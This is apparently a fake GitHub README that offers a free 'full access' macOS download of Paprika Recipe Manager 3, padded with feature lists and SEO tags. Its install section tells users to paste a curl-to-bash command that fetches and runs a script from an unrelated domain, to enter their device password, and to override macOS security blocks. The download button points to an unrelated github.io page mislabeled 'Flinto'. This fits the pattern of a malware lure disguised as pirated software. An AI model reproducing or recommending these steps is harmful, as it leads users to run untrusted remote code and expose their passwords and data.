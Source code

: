 <p align="center">
  <img src="https://play-lh.googleusercontent.com/XaFExOs9MMdCKM51P3JEt4E_vKUSWTzanixQCwUFutoIyPNlKmxi1I2NlT9R4AHURJg=w240-h480-rw" alt="Paprika Recipe Manager Mac Banner" />
</p>

<h1 align="center">Paprika Recipe Manager 3 for macOS</h1>

<p align="center">
  🥘 Cook smarter with a recipe manager that helps you save, organize, plan, and shop — all in one app.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/126" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Paprika Recipe Manager 3 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://is1-ssl.mzstatic.com/image/thumb/Purple118/v4/8b/57/93/8b5793de-cc2d-e98d-0dd9-76f40c489667/pr_source.png/643x0w.jpg" alt="Paprika Recipe Manager Main Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Paprika Recipe Manager 3?

**Paprika Recipe Manager 3** is an intelligent and elegant app for collecting, organizing, and cooking your favorite recipes on macOS. With built-in tools for grocery list generation, meal planning, and cross-device syncing, Paprika turns your Mac into a digital cooking companion.

Save recipes from any website with a single click, scale ingredients based on serving size, and cook hands-free with the built-in cooking mode. You can even plan your week’s meals, automatically populate your shopping list, and sync it to your phone.

Paprika 3 is optimized for Apple Silicon and supports macOS Sonoma, Ventura, and Monterey — delivering fast performance and seamless organization for your culinary life.

---

## ✅ Why Choose Paprika Recipe Manager 3?

- 🍳 **Smart Clipper** – Save recipes directly from websites  
- 🛒 **Grocery List Generator** – Auto-create shopping lists by meal  
- 📅 **Meal Planner** – Plan meals for days or weeks in advance  
- 🍽️ **Cooking Mode** – Focused UI with hands-free timers  
- 🧂 **Ingredient Scaling** – Adjust quantities to fit your needs  
- 📲 **Cross-Device Sync** – Access recipes from iPhone, iPad, Mac  
- ✏️ **Custom Categories & Tags** – Organize your way  
- 📚 **Offline Storage** – Access everything without internet  

> Whether you're a home cook or a pro chef, Paprika makes cooking more efficient, enjoyable, and organized.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://www.paprikaapp.com/blog/media/images/2017/11/recipes_v3.png" alt="Paprika Grocery List Screenshot" />
  <br><br>
  <img src="https://macautomationtips.com/wp-content/uploads/2020/01/Paprika-app-2.png" alt="Paprika Meal Planner Screenshot" />
</p>

---

## 🚀 Key Features

- 🍲 Save recipes from any website  
- 📖 Digital cookbook and organizer  
- 📋 Auto-generate grocery lists  
- 📅 Weekly meal planning  
- ⏲️ Cooking timers and tools  
- 🧮 Ingredient scaling by portions  
- 🔄 Cloud sync across devices  
- 🖥️ Apple Silicon native  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Paprika Recipe Manager under "App Management"

---

## 🔍 Tags

```text
paprika recipe manager mac download, paprika 3 for macbook, paprika app full version mac, recipe organizer for mac, grocery list planner macos, meal planner app mac, download paprika 3 macos, paprika for m1 mac, paprika 3 ventura compatible, mac cooking recipe software, paprika apple silicon native, best recipe manager macbook, paprika sync across devices, paprika macbook pro, paprika recipe manager standalone installer
